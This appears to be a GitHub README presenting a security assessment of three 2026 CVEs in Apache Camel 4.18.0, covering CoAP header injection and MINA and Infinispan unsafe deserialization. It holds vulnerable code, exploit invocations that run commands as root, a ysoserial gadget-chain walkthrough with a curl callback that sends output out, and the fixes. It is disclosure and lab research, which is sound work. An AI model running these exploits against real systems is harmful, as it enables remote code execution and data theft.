






# Apache Camel 4.18.0 — CVE Security Assessment

Three critical vulnerabilities in Apache Camel 4.18.0, independently discovered and validated with working proof-of-concept exploits.

| CVE | Component | Type | CVSS | Verdict |
|-----|-----------|------|------|---------|
| CVE-2026-33453 | camel-coap | Header Injection → RCE | 10.0 Critical | Exploitable |
| CVE-2026-40473 | camel-mina | Unsafe Deserialization → RCE | 9.8 Critical | Exploitable |
| CVE-2026-40858 | camel-infinispan | Unsafe Deserialization | 8.8 High | Exploitable |

---

## CVE-2026-33453: CoAP Header Injection → Remote Code Execution

**Component:** `camel-coap` — `CamelCoapResource.java:103-109`
**CWE:** CWE-915 (Improperly Controlled Modification of Object Attributes)
**Fixed in:** Camel 4.18.1 / 4.14.6

### Root Cause

`CamelCoapResource.handleRequest()` maps CoAP URI query parameters directly into Camel Exchange headers via `setHeader()` with no `HeaderFilterStrategy`. `CoAPEndpoint` extends `DefaultEndpoint` instead of `DefaultHeaderFilterStrategyEndpoint`, so internal `Camel*`-prefixed headers can be injected by any unauthenticated client.

When the route forwards to `camel-exec`, the attacker-controlled `CamelExecCommandExecutable` and `CamelExecCommandArgs` headers override the configured command, achieving pre-authenticated RCE via a single UDP packet.

```java
// CamelCoapResource.java:103-109 — NO HeaderFilterStrategy
for (String s : options.getUriQuery()) {
    int i = s.indexOf('=');
    if (i == -1) {
        camelExchange.getIn().setHeader(s, "");
    } else {
        camelExchange.getIn().setHeader(s.substring(0, i), s.substring(i + 1));
    }
}
```

### PoC Result



```
$ python3 exploits/exploit_cve_2026_33453_coap.py 127.0.0.1 'cat /etc/hostname'
[+] Response: 2.05
[+] Command output: cf6ee154412e

$ python3 exploits/exploit_cve_2026_33453_coap.py 127.0.0.1 'ls /'
[+] Command output: app bin boot dev etc home lib ...
```

---

## CVE-2026-40473: MINA Unsafe Deserialization → Remote Code Execution

**Component:** `camel-mina` — `MinaConverter.java:60-63`
**CWE:** CWE-502 (Deserialization of Untrusted Data)
**Fixed in:** Camel 4.18.2 / 4.14.6 / 4.20.0

### Root Cause

`MinaConverter.toObjectInput(IoBuffer)` creates a raw `java.io.ObjectInputStream` with **no `ObjectInputFilter`**. When a MINA endpoint is configured with `allowDefaultCodec=false`, raw TCP data arrives as an `IoBuffer` and reaches Camel's type converter, which calls this method — wrapping attacker-controlled network bytes in an unfiltered `ObjectInputStream`.

```java
// MinaConverter.java:60-63 — NO ObjectInputFilter
@Converter
public static ObjectInput toObjectInput(IoBuffer buffer) throws IOException {
    InputStream is = toInputStream(buffer);
    return new ObjectInputStream(is);  // attacker-controlled bytes, NO FILTER
}
```

**Attack path:** The exploit targets a MINA TCP endpoint with `allowDefaultCodec=false` (port 9879 in the PoC). This bypasses MINA's codec layer entirely — the `ObjectSerializationCodecFactory` has its own `ClassNameMatcher` allowlist that would otherwise block arbitrary classes. With the codec disabled, raw bytes flow straight to `MinaConverter.toObjectInput()` which creates a **standard** `ObjectInputStream` with zero class filtering.

A CommonsCollections6 gadget chain (via ysoserial) achieves arbitrary command execution as root. Command output is exfiltrated via a curl callback to the attacker.

### PoC Result



```
$ python3 exploits/exploit_cve_2026_40473_mina.py 127.0.0.1 9879 id
[+] Command output:
    uid=0(root) gid=0(root) groups=0(root)
[+] CONFIRMED: CVE-2026-40473 RCE — command executed via deserialization

$ python3 exploits/exploit_cve_2026_40473_mina.py 127.0.0.1 9879 'uname -a'
[+] Command output:
    Linux 8b1462d5c89d 6.12.76-linuxkit #1 SMP Sun Mar  8 14:41:59 UTC 2026 aarch64 GNU/Linux
```

### Reproducing CVE-2026-40473 Step-by-Step

#### Prerequisites

- Docker and Docker Compose
- Python 3.8+
- Java 17+ (for ysoserial)
- [ysoserial](https://github.com/frohoff/ysoserial) — `ysoserial-all.jar` (CommonsCollections6 gadget)

#### Step 1: Build and Start the Vulnerable Server

```bash
cd poc/
docker compose up -d --build
```

Wait for the container to start, then verify:

```bash
docker logs vuln-camel-mina
```

You should see:



```
[*] Vulnerable MINA server started
[*] Port 9877: transferExchange (Java deser) endpoint
[*] Port 9878: Object serialization codec endpoint
[*] Port 9879: Raw TCP (MinaConverter.toObjectInput) endpoint
[*] Waiting for connections...
```

Port 9879 is the target — it uses `allowDefaultCodec=false`, which disables MINA's codec filter and lets raw `IoBuffer` reach Camel's unfiltered `MinaConverter.toObjectInput()`.

#### Step 2: Confirm Deserialization (Probe Mode)

First, verify that the endpoint accepts and deserializes arbitrary Java objects with no `ObjectInputFilter`:

```bash
python3 poc/exploits/exploit_cve_2026_40473_mina.py 127.0.0.1 9879 --probe
```



```
[*] Probe mode — confirming deserialization (no RCE)
[*] Payload: HashMap (82 bytes, raw — no MINA frame)
[+] Connected to MINA endpoint
[+] Payload sent
[+] Data reached readObject() with no filter rejection
```

The probe sends a serialized `HashMap`. The server deserializes it via `ObjectInputStream.readObject()` with no `InvalidClassException` — confirming zero class filtering.

#### Step 3: Execute Commands (Full RCE)

With ysoserial available, exploit the unfiltered deserialization for arbitrary command execution:

```bash
# Execute 'id' — returns uid=0(root)
python3 poc/exploits/exploit_cve_2026_40473_mina.py 127.0.0.1 9879 id

# Read files
python3 poc/exploits/exploit_cve_2026_40473_mina.py 127.0.0.1 9879 'cat /etc/hostname'

# System info
python3 poc/exploits/exploit_cve_2026_40473_mina.py 127.0.0.1 9879 'uname -a'
```

The exploit generates a CommonsCollections6 gadget chain, sends it as raw bytes to port 9879, and captures the command output via a curl callback listener.

#### Exploit Options

```
usage: exploit_cve_2026_40473_mina.py [-h] [--ysoserial PATH] [--callback-host HOST]
                                       [--gadget GADGET] [--probe] [--raw]
                                       target [port] [command]

  target           Target IP/hostname
  port             MINA TCP port (default: 9879)
  command          Command to execute (default: id)
  --ysoserial      Path to ysoserial.jar (auto-detected if not set)
  --callback-host  Host the container uses to reach you (default: host.docker.internal)
  --gadget         ysoserial gadget chain (default: auto — tries CC6, CC5, CC1)
  --probe          Probe mode only — confirm deserialization without RCE
  --raw            Send raw payload without MINA 4-byte frame (auto-enabled for port 9879)
```

**Note:** The `--callback-host` defaults to `host.docker.internal` (Docker Desktop). If running on Linux without Docker Desktop, use `--callback-host 172.17.0.1` or your Docker bridge IP.

#### Step 4: Cleanup

```bash
cd poc/
docker compose down
```

---

## CVE-2026-40858: Infinispan Unsafe Deserialization

**Component:** `camel-infinispan` — `DefaultExchangeHolderUtils.java:46-53`
**CWE:** CWE-502 (Deserialization of Untrusted Data)
**Fixed in:** Camel 4.18.2 / 4.14.7 / 4.20.0

### Root Cause

`DefaultExchangeHolderUtils.deserialize(byte[])` creates a `ClassLoadingAwareObjectInputStream` with no `ObjectInputFilter`. The `DefaultExchangeHolderProtoAdapter` routes Infinispan cache bytes directly to this method. An attacker with cache write access (Hot Rod port 11222 or REST API) injects a malicious serialized payload that is deserialized when the aggregation repository fetches the key.

This is the same vulnerability pattern as CVE-2024-22369, CVE-2024-23114, and CVE-2026-25747 — all unfixed instances of `readObject()` without an `ObjectInputFilter` in Camel's deserialization paths.

```java
// DefaultExchangeHolderUtils.java:46-53 — NO ObjectInputFilter
static DefaultExchangeHolder deserialize(byte[] bytes) {
    try (ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
         ObjectInputStream ois = new ClassLoadingAwareObjectInputStream(bais)) {
        return (DefaultExchangeHolder) ois.readObject();  // attacker-controlled
    }
}
```

### Vulnerable Code



---

## Annotated Vulnerable Code



---

## Reproducing All Three CVEs

### Prerequisites

- Docker and Docker Compose
- Python 3.8+
- Java 17+ (for ysoserial)
- [ysoserial](https://github.com/frohoff/ysoserial) for full RCE gadget chains (CVE-2026-40473)

### Build and Run

```bash
cd poc/
docker compose up -d --build
```

This starts:
- `vuln-camel-coap` — CoAP endpoint on UDP port 5683 with camel-exec route
- `vuln-camel-mina` — MINA TCP endpoints on ports 9877 (transferExchange), 9878 (ObjectSerializationCodecFactory), and 9879 (raw TCP — primary attack target)
- `infinispan` — Infinispan server on port 11222
- `vuln-camel-infinispan` — Camel aggregation repository backed by Infinispan

### Run Exploits

```bash
# CVE-2026-33453: CoAP Header Injection → RCE
python3 poc/exploits/exploit_cve_2026_33453_coap.py 127.0.0.1 'id'

# CVE-2026-40473: MINA Unsafe Deserialization → RCE (see detailed instructions above)
python3 poc/exploits/exploit_cve_2026_40473_mina.py 127.0.0.1 9879 id

# CVE-2026-40858: Infinispan Unsafe Deserialization
python3 poc/exploits/exploit_cve_2026_40858_infinispan.py 127.0.0.1 11222
```

### Cleanup

```bash
cd poc/
docker compose down
```

---

## Assessment Process

This assessment was performed using the [RAPTOR](https://github.com/dinosn/raptor) autonomous security research framework:

1. **Research** — Identified all 3 CVEs, cross-referenced fix commits to determine Apache Camel 4.18.0 as the single vulnerable version
2. **Source acquisition** — Downloaded vulnerable components via git sparse-checkout (`camel-coap`, `camel-mina`, `camel-infinispan`)
3. **Scan** (`/scan`) — Automated vulnerability discovery across all 3 components
4. **Understand** (`/understand --map`) — Attack surface mapping: entry points, trust boundaries, sinks, unchecked data flows
5. **Validate** (`/validate`) — Full 8-stage exploitability validation pipeline (Stages 0 → A → B → C → D → E → F → 1) confirming all 3 findings are real, reachable, and exploitable
6. **Exploit** (`/exploit`) — Working PoC development with Docker-based testing environment
7. **Documentation** — Screenshots, exploit report, and this README

---

## Fixes

| CVE | Fix Version | Change |
|-----|------------|--------|
| CVE-2026-33453 | 4.18.1 / 4.14.6 | `CoAPEndpoint` → extends `DefaultHeaderFilterStrategyEndpoint`; `CoAPComponent` → implements `HeaderFilterStrategyComponent` |
| CVE-2026-40473 | 4.18.2 / 4.14.6 / 4.20.0 | Added `ObjectInputFilter.Config.createFilter("java.**;javax.**;org.apache.camel.**;!*")` before `readObject()` |
| CVE-2026-40858 | 4.18.2 / 4.14.7 / 4.20.0 | Added `ObjectInputFilter` allowlist (same pattern); falls back to JVM serial filter if configured |

---

## Disclaimer

This research is for authorized security testing and educational purposes only. All exploits were tested against locally-built Docker containers running vulnerable software. Upgrade to the fixed versions listed above.
